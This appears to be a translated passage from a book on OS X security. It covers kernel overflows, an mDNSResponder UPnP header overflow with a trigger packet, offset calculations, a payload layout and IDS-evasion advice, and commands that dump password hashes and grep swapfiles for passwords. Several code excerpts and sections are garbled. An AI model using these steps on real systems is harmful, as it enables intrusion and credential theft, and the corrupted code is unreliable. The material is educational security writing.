00e0e6147 VFS MOUNT (mp=0x2ec3d00, devxp=0x2ee3ad4, data=322212904, context=0x13ebbf40) /SourceCache/xnu/xnu-792.13.8/bsd/kpi_vfs_c:213
# 09c01d394c in mount (p=0x02fd17d0, uap=0x2671cb68, retval=0x2716fc) at /SourceCache/xnu/xnu-792.13.8/bsd/vfs_syscalls.c:470
# 10c03783337 in unix_state (state=0x25ce26) at /SourceCache/xnu/xnu-792.13.8/bsd/i386/systemcalls.c:196
# 11 0xc019caae in unix_scale ()
```

无法访问地址 `0xffffff2c` 内存

`MOAB-10-01-2007` 影响了 Mac OS X 10.4.8 (8L227) 和 FreeBSD 6.1，这是一个 UFS `fs_mount()` 函数中的整数溢出漏洞。你可以看到下方的问题代码。请注意对 `size` 变量的操作以及随后的 `bcopy()` 调用：

```
650    size = fs->fs_size;
651    if (i + fs->fs_frag < blks)
652    size = (blks - i) * fs->fs_size;
653    if (error = (int)buf_read(devxp, caddr64_t) = (unsigned fsdbtof(fs, fs->csaddr + i),
654        size, cred, &bp) {
655            _FREE(fs->fs_csp, M_UFSmnt);
656            goto out;
657        }
658    bcopy((char *)buf_datptr(bp, (u_int)size);
```

### AppleTalk ATpsndrsp() 堆溢出漏洞

如果你曾经读过 Mac OS X 内核中的 AppleTalk 代码，你会发现自 1980 年以来编码风格发生了多大的变化。由于某种原因（可能是为了允许后兼容），Apple 将他们的 AppleTalk 栈移植到了 OS X。`MOAB-14-01-2007` 暴露了 `__ATpsndrsp()` 函数中的内核缓冲区溢出；其大小参数没有经过正确检查。

```
1760 if (len > space) {    /* enough room ? * */
1761     gbuf_wset(mdata, datatptr - mtod(caddr, tc));
             /* set len of last buf * */
1762         /* allocate the next mbuf * */
1763         if ((gbuf_count(mdata) = m_get(M_WAIT, MSG_DATA)) == 0) {
1764             gbuf_freem(m);
1765         file_drop(fd);
```


```
*err = ENOMEM;
  return -1;
}
mdata = gbufuf_cont(mdata);
MLCGET(mdata, M_WAIT);
if (!mdata->m_flags & M_EXT) {
  m_free(m);
  file_drop(fd);
  return(NULL);
}
dataptr = mtod(mdata, caddr_t);
space = MCBLYTES;
```

（见 <http://projects.info-pull.com/moab/MOAB-14-01-2007.html>）。

# Scarlet 中的 MDNSResponder

如果说有什么软件供应商应该害怕，那一定是“远程根（remote root）”这两个词的组合。这意味着外部人员将能够在任何远程访问的系统上获得最高管理权限。

在讨论这个问题之前，我们必须先解释 MDNS 是所需的功能。在过去，人们没有办法以自动的方式让机器之间相互操作，例如以即插即用的方式与不同设备通信。他们必须手动输入网络地址和其他配置细节才能使用远程打印机。

为了进一步说明：

- 为了实现自动化，你需要广播广告。
- 机器应该监听并处理来自若干个不同网络主机的多个不同广告。这需要一个具有相应权限的守护进程来处理由这些消息设置的功能集。我们将这些消息及其格式命名为通信协议，即多播 DNS (MDNS)。
- 这样的守护进程能够开启服务以及这些服务所依赖的其他实用程序。想想网络打印（例如 `CUPS`），它可能需要 `Samba` 来与基于 Microsoft Windows 的主机协作）。
- AppleTalk 栈又是怎样的？

在 Mac OS X 中，这项特殊功能（被称为“Bonjour”）由 `mDNSResponder` 提供，它在 Tiger 版本中以 root 权限运行，随后在 Leopard 版本中更改为使用特定用户。它包含了 MDNS 协议的实现、一些遗留的 NAT 转换（此处将对其审查，因为它包含了令人感到震惊的简单缺陷）以及 UPN 支持。

<https://developer.apple.com/networking/bonjour/faq.html.>

2006年2月，The Register 发表了一篇文章，讨论了在 Shmoacon 会期间安全人员 Raven Adler 的 Apple PowerBook 遭到入侵的情况。基本上是有人获得了管理权限（root 级），并将笔记本电脑变成了“warez”服务器。

<https://www.theregister.com/uk/2006/02/08/apple_vulnerability/.>

取证进行的事后分析确实显示，该主机声称其已经按照最佳实践建议对任何人所能做的“加固”。在安全行业这样一个狭小领域以及行业内部的子集中，秘密是稀缺的，我们通常处理的是“公开的秘密”。也就是说，那些永远不会被任何相关人员公开承认（此外，可能根本没有可靠的证据来支持此类承认），但仍然广为人知的信息。传闻称，有三方曾对 `mDNSResponder` 的源代码进行了详尽审计。

```c
typedef struct tagProperty {
  char       *pszName;
  char       *pszValue;
  char       *pszType;
} Property, *PProperty;

typedef struct tagHTTP {
  char       *pszStatus;
  char       *pszReason;
  int        iNumHeaders;
  Property aHeaders[30]; // 假设最多许多头部
  char       *pszBody;
  // 供管理员使用
  int        fFree;
  char       *buf;
} HTTPResponse, *PHTTPResponse, **PHTTPResponse;
```

关注该结构的定义，你会注意到 `iNumHeaders` 成员。在不了解 `mDNSResponder` 如何处理响应的情况下，我们无法理解它的目的，但让我们节省时间，直奔主题：一旦所有头部都处理完毕，这个数字将持有找到的头部的总数。问题在于，你不应该处理超过固定数量的头部。又是又是简单的溢出，只不过带有一点小转折。头部，30，这就是该漏洞存在的原因。他们将其作为引用，而它们最多只能容纳30个头部。所有写入或读取该结构的函数都会受到此问题的影响。一旦数字大于30，它将导致越界写入或读取。在前者，它可能会导致可以实现任意代码执行的可利用条件；而在后者（在此特定情况下），将导致 DoS（拒绝服务）状态。

```c
iNumHeaders = 0; // 初始化为 0 个头部
// 按行解析头部字段（当未到达头部结束）
while (!FEOH) {
  pPropertyHeader = &(pResponse->aHeaders[iNumHeaders]);
  // 将头部字段名称指向行的第一个字符
  pHeader->pszName = pszEOL;
  (代码跳过)
  pHeader->pszValue++; // 跳过空格
  iNumHeaders++;
  pHeader++; // 指向下一个头部
  pResponse->aHeaders
}
```

# 漏洞将通过类似这样的 UPNP 响应触发：

```
NOTIFY * HTTP/1.1
ST: urn:schemas-upnp-org:service:WANIPConnection:1
Location: http://192.168.0.13:1981/rootDesc.xml
USN: uuid:udp-InternetGatewayDevice-1.0-1234567890001::WANIPConnection
0: AAAAAAAAAAAAA
1: BBBBBBBBBBBBB
2: CCCCCCCCCCCC
3: DDDDDDDDDDDDDD
4: EEEEEEEEEEEEEE
...
30: AAAAAAAAAAAAAA
31: BBBBBBBBBBBBBB
32: CCCCCCCCCCCC
33: DDDDDDDDDDDDDDD
```

# 用 mdResponder 获取远程 Root 权限

该技术的功劳属于 Immunity 团队，他们为自己的 CANVAS 产品开发了该模块。只要你允许将 payload 放入单个 UDP 数据包中以避免分片，这种方法就非常简单。基本上，`mDNS` 数据结构中的一个函数指针（命名为 `Callback`）在约 21120 字节内是可达的，那么我们就能通过溢出 `g_szRouterHostPortDesc` 并使用约 21120 字节的缓冲区来覆盖它。

```gdb
(gdb) p g_szRouterHostPortDesc
$4 = (char (*)[10240]) 0x3dba0
(gdb) &mDNSStorage
$5 = (mDNS *) 0x41020
(gdb) 0x41020 - 0x3dba0
$6 = 21120
```

非常直接，不是吗？正如我们已经提到的，只要我们的 payload 落在单个 UDP 数据包中，我们就没问题。（这略微取决于平台；确保你了解我们操作系统的 UDP 实现）。我们的 payload 结构应该类似于：

```
[g_szRouterHostPortDesc][21120 bytes] [mDNSStorage][ptr]
at 0x3dba0........................................at 0x41020...***]
```


# 第 7 章 • 安全与 OS X

使用随机字母数字填充有助于避免触发 IDS 签名和其他监控，但你可能可以在一个不受保护的局域网中使用此漏洞，其中自由的未受保护的 Mac OS 主机在漫游。因此，这不是一个极其困难的场景，我们不需要过多的规避。尽管如此，你应该让网络流量尽可能离散。

指针的使用在使用所示，以及它指向的原始函数。这是你偶尔能看到的奇妙事物之一，虽然存储函数指针并不是什么明智的编码实践，而且不仅仅是因为潜在的安全风险。

```gdb
(gdb) p mStorage->MainCallback
$12 = (mDNSCallback *) 0xc5fa <mDNS_StatusCallback
(gdb) list 3289
3289     if (m->MainCallback)
3290         m->MainCallback(m, mStatusConfigChanged);
3291     )
```

我们发送以触发问题的 HTTP 响应必须按照这种格式化：

```
NOTIFY * HTTP/1.1

ST: urn:schemas-upnp-org:service:WANIPConnection:1

Location: http://192.168.0.13:1981/rootDesc.xml

USN: uuid:udp-InternetGatewayDevice-1.0-1234567890001::WANIPConnection

0: AAAAAAAAAAAAA

1: BBBBBBBBBBBBB

2: CCCCCCCCCCCC

3: DDDDDDDDDDDDDD

4: EEEEEEEEEEEEEE

...

30: AAAAAAAAAAAAAA

31: BBBBBBBBBBBBBB

32: CCCCCCCCCCCC

33: DDDDDDDDDDDDD
```

# OS X 安全与加密：OS X 内部加密

## 系统钥匙串

钥匙串访问（Keychain Access）应用程序在 MacOS X 系统后台是一项相对冷门的技术。它存储了敏感且重复输入的信息和验证数据，以便在需要时自动提供。它减少了用户记忆许多不同密码的需求，消除了在其他地方制作副本的感知需求，并最终终结了那个经典的安全噩梦——贴满登录信息并粘在用户屏幕上的便利签。

钥匙串系统将信息存储在自己的安全数据库中，由于它被嵌入到 OS X 系统的基础中，它可以捕获并保留各种不同的数据。这通常包括（但不限于）电子邮件、网站和无线接入点的登录信息以及某些加密证书。为了安全起见，以某种方式对这些数据进行加密是非常重要的，而 Apple 为此选择的加密算法是三重数据加密标准（Triple-DES）。

在高级加密标准（AES）广泛采用之前不久，三重数据加密标准（DES）作为这种已被破解且完全过时的加密算法的短期继任者被引入。得益于商业专利的更新，它仍然被深度集成在安全套接层和传输层安全（SSL/TLS）协议中，这些协议用于 Web 流量的日常加密。

Triple-DES 本质上是对明文进行 DES 的三次递归应用。通过有效地将加密过程增加三倍，它极大地降低了那些破坏原始 DES 的攻击类型带来的风险，因此被某些机构认为安全得多。尽管如此，其他用户和评论人士仍然怀疑该算法存在其他未解决的弱点，导致近年来其声誉有所受损，在更新系统中的采用率也随之下降。

Triple-DES 的速度也比竞争算法慢得多。考虑到现代通信的速度需求（这些需求建立在快速高效地保护大量数据的基础上），许多系统从 Triple-DES 转向更快的算法，如 AES（其处理数据的速度几乎是 Blowfish 的七倍），这并不意外。Apple 在其钥匙串中采用 Triple-DES 标准可能追溯到 MacOS X 的早期版本，其目前的使用推测（且曾经确实）是因为在安装新版本 MacOS X 修订的迁移和升级阶段，有需要与旧系统保持兼容。

## 更好的钥匙串安全性

Apple 将钥匙串如此完整地集成到 OS X 的底层，以至于除非你特意更改用户账户的钥匙串密码，否则你不需要操作。这是安全需求与维护简单性之间平衡的良好示例。Apple 一直以生产直观、用户友好的系统闻名，做任何其他事情都将偏离公司的核心原则。反复请求输入密码可能会让许多用户感到困惑和恼，尤其是那些不理解或不特别关注安全的用户。

尽管如此，任何想要真正保护 OS X 系统的人，如果他们坚持使用钥匙串进行敏感数据存储，都应确保默认钥匙串密码与登录密码不同。用户还应该在编辑工具栏的“更改钥匙串设置”下激活“闲置 X 分钟后锁定钥匙串”和“睡眠时锁定”功能。是的，这将导致需要解锁时会有更多输入钥匙串密码的请求，但结果是一个更安全的系统。

在写作时，尚未发现公开的针对 Triple-DES 算法或锁定的系统钥匙串的完全实用的加密攻击，但如果攻击者足够幸运获得了某个未更改钥匙串密码的人的登录密码，他们仍然可以通过其他手段访问用户的钥匙串。

Apple 在 MacOS X 中提供了两套钥匙串：用于系统级任务的系统钥匙串，以及特定每个账户持有者的用户钥匙串。虽然每个钥匙串都是使用 Triple-DES 及其约 128 位密钥创建的，但 Triple-DES 本身的构建方式使其很难确定其真实大小，并可能将应用大小限制在有效的 112 位密钥上。具有安全意识的用户可能会认为这对关重要数据构成了不可接受的风险，并可能考虑使用支持更高规格算法的第三方替代方案。类似 `1Password` 这种钥匙串管理程序（<http://1password.com/>），它使用 Blowfish 算法和 128 位密钥，并在数据的加密存储中增加了额外的盐（Salt）保护，这可能是一个很好的起点。

# OS X 安全与加密：OS X 密码加密

MacOS X 从 2001 年诞生以来一直使用多种方法进行密码加密，并在 2005 年引入 MacOS X 10.4 Tiger 后，实现了与其他操作系统相一致的、通常被认为是体面的标准。然而，通往成功的道路并非帆风顺。下一节将探索 OS X 密码身份验证的发展历史，作为检查在当今世界安全存储标准登录密码所必需的多层安全方法的前言。

OS X 系统的大部分内容源于类似 UNIX 的系统中密码身份验证的标准化实现，这些系统在三十多年里没有发生太大变化。这些系统在存储密码时利用加密哈希函数，以防止密码被任何访问系统的人读取。

对 MacOS X 中采用的加密进行任何检查都要求对现代加密术语及其含义有基本的了解。以下这些指南将有助于：

## 对称加密

对称加密使用相同的密钥进行加密和解密。良好的例子包括：

- `DES`
- `Triple-DES`
- `Blowfish`
- `Twofish`
- `Serpent`
- `AES`

## 非对称加密

非对称加密使用一对密钥：公钥和私钥。这是通过交换公钥且不公开私钥实现的。示例算法包括：

- `Diffie-Hellman`
- `ElGamal`
- `Rivest, Shamir, Adleman (RSA)`
- 数字签名算法 (`DSA`)

## 哈希

哈希函数是单向数学过程，接受一个输入字符串并返回一个唯一的、固定长度的字符字符串。该结果被称为“哈希值”。哈希函数的强大之处在于其逆过程在计算上是不可行的，而且如果输入不同，每个哈希值应该是唯一的。哈希函数的示例包括：

- 安全哈希算法第一版 (`SHA-1`)
- 消息摘要算法 5 (`MD5`)
- `RIPEMD-160`
- `Whirlpool`

哈希可以满足现代操作系统的许多基本需求，包括检查数字数据完整性的需求，以及存储密码的需求。虽然哈希被认为仅仅是半安全的，但只要时间足够，暴力破解哈值是可能的（见下文），并且长期以来在基于 UNIX 的系统中一直承担这一角色，并在 OS X 的密码安全中同样处于核心。

在 OS 版本 10.0–10.2 中，Apple 使用一个名为 `NetInfo` 的数据库来存储和安排密码。这与大多数 UNIX 实现的不同之处在于，它源于开发 OS X 的 Next 软件架构，但仍然存在致命缺陷。由于 `NetInfo` 将密码直接存储在明文、未加密数据库中，简单的命令就足以获取其他用户的哈希值，这一功能缺陷很快被发现并被 `mSec.net` 和 `SecureMac.com` 等 Macintosh 安全网站的成员所关注。此涉及的命令如下：

```
$ nidump passwd
```

在系统上运行此命令的用户收到的结果中，系统中的每个用户都会包含一行类似于下面的内容：

```
jdoe:3dbn8YODE3LG.:501:501:0:0:jdoe:/Users/jdoe/jdoe:/bin/bash
```

## 密码破解

上述字符串包含哈希值，因此容易受到密码破解的威胁。破解是一种攻击方法，它通过将字典中的单个单词，或字母数字与特殊字符的随机排列与给定的哈希值进行对比，并寻找直接的关联。

哈希值的创建目的是为了保持唯一性，因此在破解过程中，如果生成的单词或字符串产生了相同的哈希，那么几乎可以确定密码已被破解。这种令人不安但有效的攻击类型通常被称为“暴力破解”或“字典”攻击，其耗时取决于可用的处理能力。这种漏洞在 UNIX 风格的系统中被密码破解程序经常利用，最著名的就是臭名昭著的 `John The Ripper` 程序。“John”（正如它常被称为那样）已移植到 MacOS X——包括原生支持以及通过 `Fink` 和 `MacPorts` 工具——并通常被认为是破解速度最快的工具。

密码破解被认为是准伦理的，但对于普通（或少见的？）安全管理员来说是必不可少的工具。在高手手中，它们通过在入侵者之前发现弱密码来保护系统；但在错误的人手中，它们可能成为针对防御已经削弱的系统的强大额外武器。事实上，它们是经典的双刃剑，但通过对多用户系统上的密码进行定期行政审计，它们确实具有促进现代加密中良好安全实践的巨大潜力。

## 影子与 DES

影子密码在大多数 UNIX 系统中常见，它可以防止除 root 用户之外的任何人查看哈希值。但 Apple 在早期的操作系统中并没有使用它们。相反，Apple 发布了 OS 10.2（2002年），使用了基于已失效的数据加密标准（DES）的 UNIX `crypt(3)` 库中的可访问哈希值。


# DES 算法

DES 算法由美国安全局（NSA）于 1977 年向全球发布，并于 1979 年首次用于密码哈希（通过 AT&T UNIX 第 7 版）。它最初作为公共标准提供，帮助填补了当时计算许多领域可用加密服务的一个巨大漏洞，但其采用的密钥大小限制为 56 位，在现代标准下可能是薄弱的。直到 20 世纪 90 年代后期，使用强密码器的加密产品被美国政府正式归类为军火，且在美国境外很难获得。为国外用户定义的美国官方加密产品通常被限制在 40 位密钥上。

DES 在 1998 年被有效破解，当时电子前疆基金会——一个非营利在线隐私和民权组织——构建了一台名为 Deep Crack 的机器来展示其脆弱性。Deep Crack 在大约 4.5 天内暴力破解了 DES 密钥，这一成就在当时被许多人认为是不可能的。

# SHA-1

Apple 在 2003 年发布 OS X 10.3 Panther 时，从之前的错误中吸取了教训。它修订了系统，使用独立于 NetInfo 数据库的影子密码，并采用了 SHA-1，这是一种由 NSA 创建并背书的强得多的加密哈希算法。Apple 还在每个影子文件中放置了密码副本，使用 Windows LAN Manager 函数进行哈希处理，是为了提供与 Windows 文件共享和 SMB/CIFS 协议的兼容性。遗憾的是，LAN Manager 值被证明极其脆弱。

# Windows LAN Manager

多年来，Windows LAN Manager (LM) 算法一直受到安全社区的严密审查和无数攻击。也许 LM 弱性最显著的演示是使用 L0ptcrack 完成的，该工具是由备受推崇的 Loft Heavy Industries 安全研究人员制作的审计工具，该组织当时是一个位于波士顿的黑客集合并自封为“智库”。通过对 LM 不区分大小写且字符有限的密码进行短长度测试，L0ptcrack 清楚地展示了基于 Windows 的密码加密的弱性。

由于 OS X 10.3 系统以这种格式存储密码，无论用户是否希望与 Windows 机器共享文件，系统的整体安全性都受到了严重损害。这很好地说明了新设计如何因为与旧的、更不安全的系统的向后兼容而受到严重损害。对于那些主要关注安全的人来说，遗憾的是，向后兼容在今天的网络世界中被广泛视为一种现实需要。

Apple 最终通过 2005 年引入 OS X 10.4 Tiger 解决了大部分这些问题。OS X 现在仅在用户专门启用 Windows 文件共享时才存储 LM 哈希，在那种情况下，它会通过一个（措辞委婉的）警告通知提醒用户可能的危险。更重要的是，Tiger 是第一个使用 Salt（盐值，现代安全的重要要素）来存储密码的 OS X 系统。最新的 MacOS X 系统 10.5 Leopard 被认为采用了相同的密码存储方法，但重要的区别是 NetInfo 已被完全移除。

# Salt（盐）与熵

Salt 用于存储密码。最新的 MacOS X 系统 10.5 Leopard 被认为采用了相同的密码存储方法，但重要的区别是 NetInfo 已被完全移除。

# FileVault 与磁盘映像

Apple 引入了一种开创技术，为用户提供了一种保护数据的简单方法：加密磁盘映像 (DMG) 文件充当虚拟磁盘，但包含在单个文件中，打开时需要密码。一旦挂载，它允许用户像操作标准磁盘或文件夹一样复制文件和数据。

# AES

加密的 DMG 自 OS X 10.3 起一直可用，并使用高级加密标准 (AES) 块密码加密。AES 通常被认为是 Triple-DES 和 DES 密码的自然继任者，已被各种现代平台和设备采用。尽管 Apple 10.4 和 10.3 中的 AES 仅允许 128 位密钥长度，但在 OS X 10.5 Leopard 中引入了额外的 256 位选项。

AES 的历史说明了现代安全密码搜索过程中经历的巨大变化。它曾是一项明显的“闭门”事务，由致力于控制强加密传播的政府主导，而现在已变成了公开讨论和共享研究的问题。这种态度和方法大转变背后的细节可以在 Steven Levy 的优秀著作《Crypto》中找到，但这种转变可以通过观察 AES 的产生方式来总结。

AES 是一项国际竞赛的产物。该竞赛由美国国家标准与技术研究院（NIST）发起，加密社区对其寻找 DES 继者的方法给予了高度赞誉。竞赛的目标是开发一种“能够在未来几个世纪内保护敏感政府信息的非分类、公开的加密算法”。经过几轮认证，这成为了许多不同加密程序的跨区域标准。NIST 最终从 15 个参赛者中选出了五个决赛者——MARS、RC6、Rijndael、Serpent 和 Twofish，并在 Rijndael 在多次测试攻击中优于竞争对手后将其命名为冠军。这个名字由比利时加密学家 Joan Daemen 和 Vincent Rijmen 的名字组合而成，后改为 AES。

# FileVault

Apple 选择将 AES 作为 OS X 的主加密算法并非巧合。尽管其他第三方工具也可以提供类似的服务，但 AES 技术也是 Apple 将 OS X 作为安全平台选择——FileVault 的驱动力。

FileVault 是一种加密解决方案，允许用户在 OS X 系统中透明地处理整个主文件夹（Home Folder）。用户拥有的所有内容，包括文件、设置和大多数缓存，都包含在一个使用 128 位 AES 加密的稀疏磁盘镜像中，该镜像在使用时会自动解密和加密。该系统在提供数字安全的“圣杯”有效保护与极低复杂性的结合迈出了大一步。

需要注意的是，在创建 FileVault 时，OS X 要求用户存储一个主密码（Master Password），作为防止用户忘记 FileVault 密码的内置保护。这看起来可能特别有吸引力，尤其是当系统有多个用户时，但这并不总是符合理想的，因为主密码（对应用户的登录密码）存储在一个隐藏的钥匙串（Keychain）文件中。该隐藏文件使用 Triple-DES 和 RSA 1024 位加密加密，这为任何试图破解 FileVault 的人提供了额外的攻击途径，根据某些分析师的说法，RSA 1024 位密钥提供的安全性比 72 位对称密钥更有效。对于那些偏好安全整洁的人来说，幸运的是，只需简单执行以下命令即可安全、方便地移除这种“额外保护”：

```
sudo srm /Library/Keychains/FileVaultMaster.
```

# 第 8 章 加密技术与 OS X

此命令将递归地覆盖 OS X 创建的 FileVault 主钥匙串和证书文件。用户返回“系统偏好设置”中的“安全性”选项卡（设置主密码的地方），现在会发现该选项已关闭，而如果之前配合主密码启用了 FileVault，它仍将开启状态。

FileVault 在提供让最担心的用户都能接受的安全水平方面做了很大努力，Apple 在向 OS X 引入此类框架方面采取的积极措施值得赞赏。然而，FileVault 并不是万能灵药，它也有其自身的问题。Apple 在制作 MacOS X 10.4 Tiger 时解决了一个问题，但目前对用户来说仍是一个活跃的问题，即 OS X 可以通过系统的虚拟内存交换空间（Virtual Memory Swap space）在机器硬盘上缓存登录和钥匙串密码的副本：http://www.securityfocus.com/archive/136716/2004-06-24/2004-06-30/。这是一个安全问题，凸显了有人可能在关机后或通过管理员命令（或类似的命令）在“交换文件”（swapfiles）或“安全睡眠镜像”（safe sleep image）中覆盖密钥的可能性：

```
strings -8 /var/vm/swapfile* | grep -A 4 -i longname
```

Apple 的解决方案是在 OS X 10.4 安全偏好设置中提供一个额外选项，允许用户开启“使用安全虚拟内存”，这防止了交换文件的易读取。安全社区早已意识到，将内存数据缓存到明文交换分区对任何系统都构成严重威胁，因为密码和密钥可能位于缓存数据中并是可以恢复的。令人鼓励的是，Apple 正在调整操作系统以克服这一缺陷。

目前，对于 OS 保护该选项的确切过程知之较少，但预计每次启动时都会创建一个加密交换空间的随机密钥，这与其他平台类似。尽管如此，在使用 FileVault 时建议开启“使用安全虚拟内存”，这对于多用户系统尤为如此。

# 明文内存

针对 FileVault 等“即时”加密系统的最新攻击集中在直接访问系统的 RAM，而不仅仅是交换空间，试图定位价值的数据密钥。RAM 一直被认为是潜在攻击者的目标，特别是通过开发缓冲区溢出漏洞，这些漏洞可以访问内存资源尝试执行任意代码。

尽管 RAM 在设计上从未是安全的，但它通常被认为是存储价值加密密钥数据的最佳可用资源。这是因为根据其在机器内部的基本用途（即为数据临时事务提供空间），RAM 被认为在机器关闭时会自然清除其内容。

远程内存攻击，特别是缓冲区溢出，具有利用许多系统的潜力，但 Apple 引入了一些有趣的功能来阻止（但并非完全阻止）针对 OS X 10.5 的实际攻击，最重要的是库随机化（Library Randomization），也称为地址空间布局随机化（Address Space Layout Randomization）。

任何需要安全防护的 Apple 设备，因为它禁用了许多最常用于绕过 Macintosh 平台安全措施的特性。在一个经过妥善保护的系统上，配合防止轻易破解密码的防篡锁，它提供了足够的强度，将重点从虚无缥缈的、基于软件的安全理念，转向根根于物理世界的基于硬件的模型。这只能是一个积极的举措，Apple 的工程师在编写此类低级函数时所展现的广阔思维值得高度赞誉。

# 替代性 RAM 攻击

除了火线线 DMA 之外，其他各种利用 RAM 的方法正在涌现，它们专门针对 Apple 的 FileVault 以及其他常用加密系统中的硬件缺陷。这些方法利用了机器在关机或重启后的脆弱状态，并清楚地表明，在这些脆弱阶段可以从另一台机器进行全面的内存转储，为挽救和重建加密密钥数据提供手段。

普林顿大学的一个研究团队（Applebaum 等）通过实际演示如何通过网络启动（NetBooting）或在物理冷冻 DRAM 内存模块后进行“冷启动”来发起此类攻击，强调了这些问题。这两种方法都为攻击者提供了机会，在内存像正常情况下在几分钟内发生降解之前访问机器内存的内容。它们甚至允许对丢失的数据进行一定程度的重建。更多信息请访问 http://citp.princeton.edu/memory/

当这些攻击对 OS 加密的威胁与现代 POC 工具结合时，变得尤为严重。这些工具包括 FileVault（其用于解密 DMG 文件的多种工具，以及对 DMG 版本 1 和 2 的支持），以及 MacRack 和 dmgbrite.c，这些都是针对加密 DMG 文件进行暴力破解和基于字典攻击的简单示例。

# 替代加密系统

冷启动攻击也可以针对备受推崇的第三方软件 TrueCrypt 进行。它自 2004 年起在 Windows 上可用（自 2005 年起在 Linux 上），并在 2008 年初发布了期待已久的 OS X 兼容版本。尽管它仍然可能受到 RAM 攻击的影响，但 TrueCrypt 被认为是一个保护数字数据的非常精密且强大的工具。其 OS X 版本对于担心未来安全的 Mac 用户来说是一个及时的助力，并将很好地增强 MacOS X 的内置功能。

最近，Linux 和 Berkeley 软件发行版（BSD）平台正转向通过加强对全加密文件系统的支持（使用 LUKS 和 dm-crypt）来建立真正的安全性。目前，备受关注的 Ubuntu 发行版正在经历从其自己的替代 CD 将此类系统支持整合到主流发行版的过程。其他 Linux 和 BSD 系统多年来对这些系统提供了完全支持，一些专家认为 FreeBSD 是将完全的加密服务集成到操作系统中的先驱。

FileVault 为磁盘加密系统开启了视野，但它仍然为有决心的攻击者留下了许多门缝，因此采用加密整个硬盘内容的方法可能是 Apple 的未来发展之路。该领域专家的开放性和审查将是提供安全加密系统的关键要素。开源方法自然而能满足这些需求，但 Apple 的专有控制方法需要提供更多内容，才能跟上安全专业人员不断增长的需求。随着越来越多的客户学会认真对待安全，一个开放的解决方案将保护（可能扩展）该公司的利基市场，并为其在数字安全社区的声誉增加令人安心的保障。

总而言之，尽管上述详述的攻击类型非常可行性，并对当前的加密系统构成了真实威胁，但可能必要从单个问题中退一步，考虑大局。重要的是要认识，问题的根源不在于 Apple 这样的特定供应商，而在于一种与现代威胁矩阵脱节的行业采用的安全模型。揭示加密数据中新漏洞的特定方法，仅仅凸显了对一个既涵盖物理访问和硬件威胁，又涵盖传统软件缺陷的安全模型的需求。事实上，由于任何严肃的安全方法都要求对其观察的上下文进行全面检查，我们必须准备好为这项任务重新设计我们的硬件。

出于上述原因，现代世界的成功安全只能通过多层设计来实现，并使用严格客观、灵活且开放的参数创建。

# 无线加密

随着无线技术的使用普及，Apple 试图用其自己的无线系统名称 Airport 对整项技术进行品牌化。OS X 支持通过内部 AirPort 卡连接到无线网络，这些卡片提供最新的驱动程序，并支持这一快速发展技术的最新硬件版本。加密基于保护从机器广播的信号以及保护无线网络免受入侵者侵害的需求，它是这项及所有所有无线技术的核心，如果对影响现代无线安全的问题有广泛理解，就无法对这些系统对 macOS X 的影响进行分析。

## WEP

WEP 由电气电子工程师学会（IEEE）于 1999 年引入，当时 Wi-Fi 技术开始在市场上取得进展，随着安全成为一个严重问题，有线等隐私（WEP）是第一个在无线网络安全上达到与传统有线网络水平的加密方法，但它的开发发生在美国政府放宽对加密密码的高度限制性制裁之前的时代，因此它最初仅限于勉强足够的的 64 位。尽管后来被扩展到 128 位，但 WEP 从根本上仍然存在缺陷。2004 年，IEEE 正式宣布 WEP 过时。

## 初始化向量

初始化向量（IV）是一个短密钥，它与秘密密钥拼接在一起，以确保相同的明文加密两次后会产生不同的密文。然而，IV 的长度仅为 24 位，对于现代高速网络来说太太小了。在繁忙的网络中，IV 最终会重复。当 IV 重复时，攻击者可以使用统计分析来恢复秘密密钥。这种漏洞被称为 IV 碰撞攻击。

为了利用用这一弱点，攻击者使用 Aircrack 等工具捕获足够数量具有重复 IV 的数据包。一旦收集了足够的数据，就可以在合理时间内破解密钥。这就是为什么 WEP 不再被认为是安全的，并被 WPA 和 WPA2 等更健壮的协议所取代。

## WEP 威胁

Jesse R. 于 2000 年发表了 WEP 的首次披露，随后 Scott Fluhrer、Itsik Mantin 和 Adi Shamir 发表了关键的年度论文《密钥调度算法中的弱点》，对其缺点进行了全面的综述。在理论攻击之后，实际示例很快在互联网上出现，为测试无线网络提供了必要的手段。

互联网很快开始提供执行此类攻击所需的工具，使个人能够测试无线网络。其中第一个 Airsnort 是于 2001 年发布的，在 Fluhrer、Mantin 和 Shamir 的论文发表后不久，但它从未在 OS X 上原生发布过，Apple 用户不得不等待兼容操作系统的 WEP 破解程序。流行的无线破解程序的移植版（如 Aircrack 和 Kismet）最终出现，但最常用的 OS X 原生开源无线分析器是 iStumble（源自 MacStumber 并于 2002 年发布）和 KisMac（于 2003 年发布）。

为了在没有 Airport 硬件的情况下在 Macintosh 上实现正确的无线分析，人们努力逆向 Apple 驱动程序以允许访问所需的特定功能，特别是备受推崇的“监控模式”。监控模式允许网卡是被动的而不是主动的，因此它可以监听所有流动的数据而不与这些数据交互。这类似于有线以太网设备上臭名昭著的“混杂模式”，配置为使用这种模式的设备实际上变成了无线信号的隐形狙击手。私有框架的一个逆向头文件示例可以在此处找到：http://macstumber.com/Apple80211.h。

虽然 Airport 的隐藏监控模式允许 iStumble 及其前身 MacStumber 用户定位和诊断无线网络，但它们没有提供对无线进行主动攻击的方法。相比之下，作为无线发现工具的 KisMac 还包含了一系列帮助破解 WEP 和 WPA 的功能。与不同平台上的其他 WEP 破解程序类似，KisMac 帮助执行针对 WEP 的三阶段主动“弱点密钥调度攻击”的每个阶段。这如下：

1. 在监听模式（Monitor Mode）下被动监听，收集信息并选择目标服务器集标识符（SSID）。
2. 在网络上主动生成流量，以便在数据包产生更多的初始化向量（IV）和弱帧。
3. 在加密攻击中使用弱帧来试图泄露无线网络密钥（Wireless Network Key）。

这种攻击的执行速度很难预测，取决于概率。每个数据包可能每隔几千次尝试才能揭示密钥的一个比特位，在这种情况下，可能需要一百万个数据包才能确保攻击成功，但实际上少于 250,000 个包就能完成任务。随着该技术成为针对 WEP 的标准手段，许多成功的攻击在不到十分钟内被报告，这强调了 WEP 和原始的 802.11 标准已经低迷到了不可接受的安全水平多远。

WEP 如今仍在在使用。对支持 WEP 加密的硬件的同样依赖延长了它的寿命，并伴随着对 Airport 网络安全的普遍无知。在保护 Airport 网络时，尽可能避免使用 WEP；如果由于旧硬件兼容性问题而强制使用 WEP，则强烈建议部署支持机制，例如访问控制（MAC）地址过滤、隐藏 SSID 和安全隧道协议。然而，这些插件都不能真正替代更强大的无线加密服务，例如 Wi-Fi 保护访问（WPA）或 Wi-Fi 保护访问 2（WPA2）。

## Wi-Fi 保护访问 (WPA)


# 第 8 章 加密技术与 OS X

